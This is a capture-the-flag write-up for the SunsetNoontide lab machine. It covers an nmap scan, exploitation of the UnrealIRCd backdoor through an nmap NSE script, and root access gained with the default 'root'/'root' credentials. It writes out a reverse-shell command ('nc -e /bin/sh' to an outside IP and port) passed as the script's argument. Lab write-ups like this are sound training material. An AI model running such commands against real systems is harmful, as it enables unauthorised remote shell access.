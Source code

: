 ```yaml
---
layout: default
title : muzec - SunsetNoontide Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/116802126-7d810080-aade-11eb-86a0-65cfc67f07fd.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Tue Apr 27 15:21:07 2021 as: nmap -sC -sV -oA nmap 192.168.57.120
Nmap scan report for 192.168.57.120
Host is up (0.22s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 27 15:22:06 2021 -- 1 IP address (1 host up) scanned in 59.09 seconds
```


Just a IRC port cool doing some research on it i found out we have some popular irc-unrealircd-backdoor NSE script on Nmap so i give it a shot.

The irc-unrealircd-backdoor.command script argument can be used to run an arbitrary command on the remote system. Because of the nature of this vulnerability (the output is never returned) we have no way of getting the output of the command. It can, however, be used to start a netcat listener as demonstrated here

`nmap -d -p6697 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -e /bin/sh 10.10.10.1 1337' 192.168.74.120`

Now before running the backdoor NSE script we need to start and Ncat listener on our machine.

![image](https://user-images.githubusercontent.com/69868171/116802286-9e962100-aadf-11eb-8231-4570a2a25b98.png)

Now let hit the NSE script.

![image](https://user-images.githubusercontent.com/69868171/116802343-09475c80-aae0-11eb-98bb-65a096eeaa2e.png)

And we have shell.

![image](https://user-images.githubusercontent.com/69868171/116802667-8ecc0c00-aae2-11eb-94fc-5b509473a45e.png)

### Privilege Escalation

Took me time because the machine was so clean but using `root` and `root` for both username and password drop us into the root shell.

![image](https://user-images.githubusercontent.com/69868171/116802710-069a3680-aae3-11eb-8752-f09d2a44dd95.png)


Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
